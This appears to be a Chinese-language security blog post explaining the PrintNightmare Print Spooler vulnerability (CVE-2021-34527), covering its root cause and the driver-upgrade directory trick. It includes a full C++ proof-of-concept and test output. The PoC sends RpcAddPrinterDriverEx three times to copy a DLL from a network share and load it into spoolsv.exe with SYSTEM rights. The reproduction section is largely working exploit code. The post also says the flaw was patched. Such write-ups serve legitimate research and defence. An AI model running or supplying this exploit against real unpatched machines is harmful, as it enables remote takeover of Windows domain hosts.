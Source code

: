 ## 環境
* Windows Server 2019 (目標環境不能被更新過)
* Visual Studio 2019
* Impacket 0.9.23

## 漏洞介紹
今年微軟的 Print Spooler 漏洞頻頻，包含六月中的 CVE-2021-1675、七月的 CVE-2021-34527，還有八月的 CVE-2021-36936。這篇要說明這個被微軟稱作 PrintingNightmare 的 CVE-2021-34527 的成因與原理。

列印多工緩衝處理器 - Print Spooler，是用來管理所有本地和網絡打印隊列及控制所有打印工作。

原本這個漏洞只被認為是個 LPE(Local Privilege Escalation) 漏洞。但是只要在同個 Domain，並且在目標機器有一般使用者權限，能夠存取 Print Spooler 服務，就可以觸發這個漏洞。因此這個漏洞就升級成 RCE(Remote Code Execution) 漏洞。

## 確認服務
可以使用 [impacket](https://github.com/SecureAuthCorp/impacket) 的 rpcdump 確認 Print Spooler 服務是否存在。
```
$ python3 rpcdump.py @192.168.88.145 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-RPRN]: Print System Remote Protocol
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

## 漏洞成因與原理
### RPC
![](https://i.imgur.com/I0OxHY7.png)
從 Client 透過 RPC 傳送資訊給 Server 的 Print Spooler 服務，並且更新檔案。其中在處理 RPC 的過程，localspl.dll 中的 SplAddPrinterDriverEx 這個函數因為沒有檢查 SeLoadDriverPrivilege 權限，最終導致讓攻擊者可以提權至 SYSTEM 並執行任意程式。

### Upgrade
當 Print Spooler 有發生更新的狀況時，新版本的檔案會放在 `C:\Windows\System32\spool\drivers\x64\3`，而舊版本的檔案保留在 `C:\Windows\System32\spool\drivers\x64\3\Old\` 目錄，Old 裡面又會放流水號的目錄以免有很多個舊版本。攻擊者可以透過這點利用 RPC 先把網路芳鄰的檔案複製進本機目錄，再更新 Print Spooler 載入自己的 Image。

### 更新的檔案
三個參數 pDriverPath、pDataFile、pConfigFile 分別代表三個路徑，其中 pDriverPath 必須是 UNIDRV.dll，而 UNIDRV.dll 的位置會根據版本不同而改變，在我的 Windows Server 2019 的路徑是 `C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL`；pDataFile 可以使用 UNC Path，雖然不會載入到 spoolsv.exe，但是檔案會被複製；pConfigFile 則是會載入 spoolsv.exe 的檔案，不過這不能填 UNC Path，得要先利用 pDataFile 把檔案複製到本機後再 RPC 一次才載入。

## 漏洞重現
### 流程
1. 設定 RPC 參數
    * 其中 pDriverPath 必須是 UNIDRV.DLL;
    * pConfigFile 是會被載入的檔案;
    * pDataFile 不會被載入，但是會被複製到 C:\Windows\System32\spool\drivers\x64\3\ 
2. 取得經過身分驗證的 Binding Handle
3. 傳送 RPC，總共至少要傳 3 次
    * 第一次會先把 pDataFile 檔案複製到 C:\Windows\System32\spool\drivers\x64\3\ ，原本的檔案則被放到 C:\Windows\System32\spool\drivers\x64\3\Old\1 
    * 第二次會把第一次被複製到 C:\Windows\System32\spool\drivers\x64\3\ 的檔案放到 C:\Windows\System32\spool\drivers\x64\3\Old\2\ 
    * 第三次會把 pConfigFile 改成第二次被放到 C:\Windows\System32\spool\drivers\x64\3\Old\2 的檔案 
    
### POC
改自 [afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)，不過現在連結似乎失效了，完整 POC 放在 [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/%E5%8F%88%E6%98%AFPrintSpooler%E6%90%9E%E7%9A%84%E9%AC%BC/PrintNightmare)。
```cpp=
int wmain(int argc, wchar_t* argv[]) {
    if (argc != 5) {
        printf(".\\poc.exe dc_ip path_to_exp user_name password\n");
        printf("For example: \n");
        printf(".\\poc.exe  192.168.228.191 \\\\192.168.228.1\\test\\MyExploit.dll test 123 \n");
        return 0;
    }
    wsprintf(dc_ip, L"%s", argv[1]);
    wsprintf(dc_path, L"\\\\%s", argv[1]);
    wsprintf(src_exp_path, L"%s", argv[2]);
    wsprintf(exp_name, L"%s", wcsrchr(argv[2], '\\')+1);
    wsprintf(username, L"%s", argv[3]);
    wsprintf(password, L"%s", argv[4]);

    printf("[+] Get Info:\n");
    wprintf(L"[+] dc_ip: %s\n", dc_ip);
    wprintf(L"[+] dc_path: %s\n", dc_path);
    wprintf(L"[+] src_exp_path: %s\n", src_exp_path);
    wprintf(L"[+] exp_name: %s\n", exp_name);
    wprintf(L"[+] username: %s\n", username);
    wprintf(L"[+] password: %s\n\n", password);

    // 1. 設定 RPC 參數
    // 其中 pDriverPath 必須是 UNIDRV.DLL;
    // pConfigFile 是會被載入的檔案;
    // pDataFile 不會被載入，但是會被複製到 C:\Windows\System32\spool\drivers\x64\3\ 
    DRIVER_INFO_2 info;
    info.cVersion = 3;
    info.pConfigFile = (LPWSTR)L"C:\\Windows\\System32\\KernelBase.dll";
    info.pDataFile = src_exp_path;
    info.pDriverPath = (LPWSTR)L"C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL";
    info.pEnvironment = (LPWSTR)L"Windows x64";
    info.pName = (LPWSTR)L"XDD";
    DRIVER_CONTAINER container_info;
    container_info.Level = 2;
    container_info.DriverInfo.Level2 = new DRIVER_INFO_2();
    container_info.DriverInfo.Level2->cVersion = 3;
    container_info.DriverInfo.Level2->pConfigFile = info.pConfigFile;
    container_info.DriverInfo.Level2->pDataFile = info.pDataFile;
    container_info.DriverInfo.Level2->pDriverPath = info.pDriverPath;
    container_info.DriverInfo.Level2->pEnvironment = info.pEnvironment;
    container_info.DriverInfo.Level2->pName = info.pName;

    // 2. 取得經過身分驗證的 Binding Handle
    RPC_BINDING_HANDLE handle;
    RPC_STATUS status = CreateBindingHandle(&handle);

    // 3. 傳送 RPC
    RpcTryExcept
    {
        DWORD hr;

        // 第一次會先把 pDataFile 檔案複製到 C:\Windows\System32\spool\drivers\x64\3\ ，原本的檔案則被放到 C:\Windows\System32\spool\drivers\x64\3\Old\1 
        // 第二次會把第一次被複製到 C:\Windows\System32\spool\drivers\x64\3\ 的檔案放到 C:\Windows\System32\spool\drivers\x64\3\Old\2\ 
        for (int i = 0; i < 2; i++) {
            hr = RpcAddPrinterDriverEx(handle,
                dc_path,
                &container_info,
                APD_COPY_ALL_FILES | 0x10 | 0x8000
            );
        }
		
        // 第三次會把 pConfigFile 改成第二次被放到 C:\Windows\System32\spool\drivers\x64\3\Old\2 的檔案 
        wsprintf(dest_exp_path, L"C:\\Windows\\System32\\spool\\drivers\\x64\\3\\Old\\2\\%s", exp_name);
        container_info.DriverInfo.Level2->pConfigFile = dest_exp_path;
        hr = RpcAddPrinterDriverEx(handle,
            dc_path,
            &container_info,
            APD_COPY_ALL_FILES | 0x10 | 0x8000
        );
        wprintf(L"[*] Try to load %s - ErrorCode %d\n", container_info.DriverInfo.Level2->pConfigFile,hr);
        if (hr == 0) return 0;
    }
    RpcExcept(1) {
        status = RpcExceptionCode();
        printf("RPC ERROR CODE %d\n", status);
    }
    RpcEndExcept
}
```

### 實際測試
```
# POC.exe 192.168.88.145 \\192.168.88.145\share\InjectedDLL.dll user password
[+] Get Info:
[+] dc_ip: 192.168.88.145
[+] dc_path: \\192.168.88.145
[+] src_exp_path: \\192.168.88.145\share\InjectedDLL.dll
[+] exp_name: InjectedDLL.dll
[+] username: user
[+] password: password

[+] Binding successful!! handle: -1519388184
[*] Try to load C:\Windows\System32\spool\drivers\x64\3\Old\2\InjectedDLL.dll - ErrorCode 0
```

POC 會試圖複製並載入 InjectedDLL.dll 檔案，ErrorCode 為 0 時代表成功。這時在目標機器用 Process Explorer 查看 spoolsv.exe 有沒有成功載入 InjectedDLL.dll。

## 修補狀況
CVE-2021-34527 已在今年七月修補，也包含與之相關的 CVE-2021-1675。

## 參考資料
* [曾感染臺灣的勒索軟體Magniber正在開採PrintNightmare漏洞](https://www.ithome.com.tw/news/146233)
* [cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)
* [微軟8月Patch Tuesday修補3個零時差漏洞， 包含一新的Print Spooler漏洞](https://www.ithome.com.tw/news/146135)
* [afwu/PrintNightmare](https://github.com/afwu/PrintNightmare)
